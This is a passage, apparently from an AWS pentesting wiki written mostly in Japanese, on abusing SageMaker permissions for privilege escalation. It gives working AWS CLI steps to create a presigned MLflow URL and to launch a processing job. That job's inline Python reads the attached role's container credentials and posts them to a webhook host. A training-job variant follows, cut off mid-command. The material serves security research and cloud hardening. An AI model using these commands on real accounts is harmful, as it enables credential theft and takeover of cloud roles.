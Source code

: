 **Requirements:**
- アカウント/リージョン内にある SageMaker MLflow Tracking Server とその名前。
- 攻撃者プリンシパルは対象の MLflow Tracking Server リソース（または `*`）に対して `sagemaker:CreatePresignedMlflowTrackingServerUrl` の権限が必要。

**Abuse Steps**:

1) 対象にできる MLflow Tracking Server を列挙し、1つの名前を選択する
```bash
aws sagemaker list-mlflow-tracking-servers \
--query 'TrackingServerSummaries[].{Name:TrackingServerName,Status:TrackingServerStatus}'
TS_NAME=<tracking-server-name>
```
2) presigned MLflow UI URL を生成する（短時間のみ有効）
```bash
aws sagemaker create-presigned-mlflow-tracking-server-url \
--tracking-server-name "$TS_NAME" \
--query AuthorizedUrl --output text
```
3) 返されたURLをブラウザで開くと、そのTracking Serverに対して認証済みユーザーとしてMLflow UIにアクセスできます。

**Potential Impact:** 対象のTracking Serverの管理されたMLflow UIへ直接アクセスでき、サーバー設定で課される権限の範囲内で実験/ランの閲覧や変更、およびサーバーで構成された S3 artifact store に保存されたアーティファクトの取得やアップロードが可能になります。


### `sagemaker:CreateProcessingJob`, `iam:PassRole`

その権限を持つ攻撃者は、SageMakerロールをアタッチした状態で**SageMakerにprocessing jobを実行させる**ことができます。既にPythonを含む AWS Deep Learning Containers のいずれかを再利用し（URIと同じリージョンでjobを実行することで）、独自のイメージを構築せずにインラインでコードを実行できます:
```bash
REGION=<region>
ROLE_ARN=<sagemaker-arn-role>
IMAGE=683313688378.dkr.ecr.$REGION.amazonaws.com/sagemaker-scikit-learn:1.2-1-cpu-py3
ENV='{"W":"https://example.com/webhook"}'

aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig":{"InstanceCount":1,"InstanceType":"ml.t3.medium","VolumeSizeInGB":50}}' \
--app-specification "{\"ImageUri\":\"$IMAGE\",\"ContainerEntrypoint\":[\"python\",\"-c\"],\"ContainerArguments\":[\"import os,urllib.request as u;m=os.environ.get('AWS_CONTAINER_CREDENTIALS_RELATIVE_URI');m and u.urlopen(os.environ['W'],data=u.urlopen('http://169.254.170.2'+m).read())\"]}" \
--environment "$ENV" \
--role-arn $ROLE_ARN

# Las credenciales llegan al webhook indicado. Asegúrate de que el rol tenga permisos ECR (AmazonEC2ContainerRegistryReadOnly) para descargar la imagen.
```
**潜在的影響:** Privesc to the sagemaker service role specified.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

これらの権限を持つ攻撃者は、指定されたロールで任意のコードを実行するトレーニングジョブを起動できます。公式の SageMaker コンテナを使用し、entrypoint を payload inline で上書きすれば、自前のイメージを構築する必要はありません:
```bash
REGION=<region>
ROLE_ARN=<sagemaker-role-to-abuse>
IMAGE=763104351884.dkr.ecr.$REGION.amazonaws.com/pytorch-training:2.1-cpu-py310
ENV='{"W":"https://example.com/webhook"}'
OUTPUT_S3=s3://<existing-bucket>/training-output/
# El rol debe poder leer imágenes de ECR (p.e. AmazonEC2ContainerRegistryReadOnly) y escribir en OUTPUT_S3.

aws sagemaker create-training-job \
--training-job-name privesc-train \
--role-arn $ROLE_ARN \
```